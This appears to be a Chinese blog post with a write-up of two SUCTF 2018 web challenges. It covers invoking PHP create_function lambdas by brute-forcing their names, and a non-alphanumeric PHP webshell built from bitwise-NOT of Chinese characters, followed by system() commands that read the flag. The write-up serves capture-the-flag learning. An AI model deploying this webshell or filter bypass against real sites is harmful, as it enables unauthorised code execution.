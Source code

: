 ```yaml
---
title: SUCTF 2018 部分web writeup
tags: 
  - ctf
date: 2018-05-28 10:46:06
---
```


# SUCTF
抽了点时间做了2道SUCTF的web题，记录一下writeup。

<!-- more -->
# Anonymous

## 考点
php的动态函数执行，以及create_function所返回的匿名函数

## wp
访问题目，直接给了源码
```
$MY = create_function("","some code"); // 执行了cat命令，读取flag内容
$hash = bin2hex(openssl_random_pseudo_bytes(32));
eval("function 'SUCTF_'.$hash(){"
    ."global \$MY;"
    ."\$MY();"
    ."}");
if(isset($_GET['func_name'])){
    $_GET["func_name"]();
    die();
}
```
思路比较明确，就是想办法执行create_function所产生的匿名函数。
而其中SUCTF_32，这个函数明确是没办法爆破出来的。那么就只能在 `$MY` 上下功夫。
打印一下`$MY`的值，发现create_function返回了`\0lambda_{number}`,那么就很明确了，只要暴力一下这个number就有一定几率执行该函数，这里我暴力了大概1000多就有2条执行了


# Getshell

## 考点

https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html

## wp

1. 首先确定可用字符，使用bp将所有可见字符暴力一遍后发现可打印字符为`$ () [] _ ~ . ; =`，以及其他不可打印字符。
2. 根据p牛的博客，发现取反中文可以起到作用，测试`~({中文})`发现可根据中文的utf-8编码的中间2个hex码进行对字母的遍历
http://www.herongyang.com/gb2312_gb/pinyin_32.html
3. 凑出字符`assert`，`_GET`，并动态执行。
为了凑出上面的字符，我采用逐个反取反`bin2hex(~('a'))`获得中文utf-8编码的中间2个，搜表即可找到对应的中文，写一下我的getshell代码
```
<?php
$_=~(瞎);
$__.=$_[[]==[]];
$_=~(挟);
$__.=$_[[]==[]];
$_=~(挟);
$__.=$_[[]==[]];
$_=~(隙);
$__.=$_[[]==[]];
$_=~(卸);
$__.=$_[[]==[]];
$_=~(勋);
$__.=$_[[]==[]];

$_=~(校);
$___.=$_[[]==[]];
$_=~(下);
$___.=$_[[]==[]];
$_=~(纤);
$___.=$_[[]==[]];
$_=~(嫌);
$___.=$_[[]==[]];
$___=$$___;
$__($___[_]);
```
4. 上传了shell之后就比较容易了，翻目录即可
```
system('ls /')
system('cat /Th1s_14_f14g')
```

# 总结
记录一下getshell的坑点
  1. eval不是函数，是语句
  2. 不用引号，用中文也被php当作是字符串
  3. UTF-8编码 http://www.herongyang.com/gb2312_gb/pinyin_32.html